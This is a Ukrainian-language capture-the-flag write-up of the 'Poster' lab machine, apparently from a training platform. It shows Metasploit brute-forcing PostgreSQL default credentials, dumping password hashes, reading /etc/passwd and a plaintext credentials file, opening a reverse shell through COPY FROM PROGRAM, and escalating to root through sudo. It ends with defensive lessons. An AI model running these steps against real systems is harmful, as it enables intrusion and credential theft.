# Poster - The sys admin set up a rdbms in a safe way.

Складність: Easy

Ціль: 10.113.182.254

## 1. Розвідка (Reconnaissance & Enumeration)

### 1.1. Сканування портів (`Nmap`):
   Для первинного аналізу системи було запущено повне сканування всіх TCP-портів з визначенням версій служб та запуском базових скриптів:
```bash
└─$ sudo nmap -sC -sV -p- -vv -oN nmap_result.txt 10.113.182.254
```


  
   За результатами сканування виявлено такі ключові сервіси:
   * Порт `22/tcp` — OpenSSH
   * Порт `80/tcp` — Apache HTTP Server (Poster CMS)
   * Порт `5432/tcp` — PostgreSQL RDBMS

### 1.2. Веб-розвідка та робота з БД через `Metasploit`:
   На порті `80` працює веб-інтерфейс системи керування контентом `Poster CMS`. Паралельно з цим розпочато перевірку конфігурації СУБД `PostgreSQL`, яка виявилася головним вектором атаки.
   Використовуємо `Metasploit` для пошуку модулів під `PostgreSQL`:
```bash
└─$ msfconsole 
msf > search PostgreSQL
msf > use 25
```



   За допомогою сканера брутфорсу облікових даних `auxiliary/scanner/postgres/postgres_login` перевіряємо стандартні комбінації:





   Знайдено вразливість: Адміністратор налаштував `RDBMS` небезпечним способом, залишивши стандартні дефолтні облікові дані користувача `postgres` з паролем `password`.
   За допомогою модуля `auxiliary/admin/postgres/postgres_sql` перевіряємо можливість виконання SQL-запитів та дізнаємося точну версію серверу:
```bash
msf > use auxiliary/admin/postgres/postgres_sql
```




   Далі запускаємо `auxiliary/scanner/postgres/postgres_hashdump` для збору хешів паролів користувачів бази даних:
```bash
msf > search postgres
msf > use auxiliary/scanner/postgres/postgres_hashdump
```




   Форматуємо отримані хеші для подальшого аналізу та брутфорсу за допомогою `CrackStation`:
```bash
└─$ awk '{print $2}' hashdump.txt | sed 's/md5//' > hashes.txt
└─$ cat hashes.txt
Hash
----
8842b99375db43e9fdf238753623a27d
78fb805c7412ae597b399844a54cce0a
32e12f215ba27cb750c9e093ce4b5127
f7dbc0d5a06653e74da6b1af9290ee2b
7af9ac4c593e9e4f275576e13f935579
03aab1165001c8f8ccae31a8824efddc
```


## 2. Точка входу (Initial Access / Foothold)
  
### 2.1. Експлуатація вразливості:
   Маючи права адміністратора СУБД (`postgres`), використовуємо модуль `auxiliary/admin/postgres/postgres_readfile`, який дозволяє автентифікованому користувачу читати будь-які файли на сервері, до яких має доступ процес БД.
```bash
msf > use auxiliary/admin/postgres/postgres_readfile
```



   Спершу викачуємо системний файл `/etc/passwd`:
```bash
msf auxiliary(admin/postgres/postgres_readfile) > run
[*] Running module against 10.113.182.254
Query Text: 'CREATE TEMP TABLE wulcAXRYrehl (INPUT TEXT);
      COPY wulcAXRYrehl FROM '/etc/passwd';
      SELECT * FROM wulcAXRYrehl'
=======================================================================================================================================

    input
    -----
    #/home/dark/credentials.txt
    _apt:x:105:65534::/nonexistent:/bin/false
    alison:x:1000:1000:Poster,,,:/home/alison:/bin/bash
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    dark:x:1001:1001::/home/dark:
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    messagebus:x:106:110::/var/run/dbus:/bin/false
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    postgres:x:109:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    root:x:0:0:root:/root:/bin/bash
    sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    syslog:x:104:108::/home/syslog:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    uuidd:x:107:111::/run/uuidd:/bin/false
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
   В отриманому списку користувачів було помічено залишений адміністратором коментар із прямим шляхом до секретного файлу: `#/home/dark/credentials.txt`.
   Змінюємо параметр `RFILE` у модулі та зчитуємо цей файл:

```bash
msf auxiliary(admin/postgres/postgres_readfile) > set RFILE /home/dark/credentials.txt
RFILE => /home/dark/credentials.txt
msf auxiliary(admin/postgres/postgres_readfile) > run
[*] Running module against 10.113.182.254
Query Text: 'CREATE TEMP TABLE uqFFLjs (INPUT TEXT);
      COPY uqFFLjs FROM '/home/dark/credentials.txt';
      SELECT * FROM uqFFLjs'
=======================================================================================================================================

    input
    -----
    dark:qwerty1234#!hackme
```

   У результаті отримуємо валідні системні облікові дані користувача `dark`.

### 2.2. Отримання реверс-шеллу:
   Для отримання первинного шеллу на сервері використовуємо експлойт `exploit/multi/postgres/postgres_copy_from_program_cmd_exec`. Цей модуль використовує команду `COPY ... FROM PROGRAM`, що дозволяє виконувати системні команди в ОС від імені користувача `postgres`:
```bash
msf > use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
```



   Успішно відкрито сесію `Command shell session 1` з правами `uid=109(postgres)`.



## 3. Підвищення привілеїв (Privilege Escalation)

### 3.1. Горизонтальне переміщення (`postgres` -> `dark` -> `alison`):
   Паралельно підключаємося до серверу через `SSH` під раніше знайденим користувачем `dark`:
```bash
└─$ ssh dark@10.113.182.254
```

   Перевірка `sudo -l` для користувача `dark` показала, що він не має права використовувати `sudo`. Файл `user.txt` знаходиться в домашній директорії іншого користувача — `alison`, куди ми не маємо доступу.



   Перевіряємо директорію веб-сервера `/var/www/html` та знаходимо конфігураційний файл сайту `config.php`:



   У файлі було жорстко закодовано пароль користувача `alison`.
   Переключаємося на користувача `alison` та забираємо прапор користувача:



### 3.2. Вертикальне підвищення (`alison` -> `root`):
   Перевіряємо привілеї нового користувача `alison` за допомогою команди `sudo -l`. Система видає конфігурацію: `(ALL : ALL) ALL`. Це означає, що користувачу `alison` дозволено виконувати абсолютно будь-які команди через `sudo` з правами суперкористувача (`root`).
   Здійснюємо перехід в root-оболонку та зчитуємо фінальний прапор системи:



## Висновки
У ході компрометації машини було продемонстровано критичні наслідки недбалого ставлення до безпеки:

1. Використання дефолтних облікових даних для адміністратора СУБД (`postgres:password`) дозволило зловмиснику отримати повний контроль над базою даних.

2. Функціонал копіювання файлів та виконання команд всередині PostgreSQL (`COPY ... FROM PROGRAM`) став важелем для отримання віддаленого виконання коду (RCE).

3. Зберігання чутливих паролів у відкритому вигляді всередині файлів (`credentials.txt` та `config.php`) полегшило горизонтальне переміщення по системі.

4. Надмірні привілеї в налаштуваннях `sudoers` (`ALL ALL`) призвели до миттєвого повного захоплення серверу.
